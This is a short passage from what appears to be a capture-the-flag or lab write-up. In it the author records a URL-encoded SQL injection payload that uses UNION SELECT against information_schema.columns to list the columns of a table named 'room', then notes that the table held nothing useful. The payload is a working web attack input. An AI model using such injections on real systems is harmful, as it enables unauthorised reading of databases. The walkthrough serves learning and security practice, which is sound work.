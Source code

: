 ![](./IMG/35.png)

> I checked the column in table room

```
100%20UNION%20SELECT%201,group_concat(column_name),3,4,5,6,7%20From%20information_schema.columns%20WHERE%20table_name=%27room%27;--%20-
```
> There is nothing helpful information for me in this table.
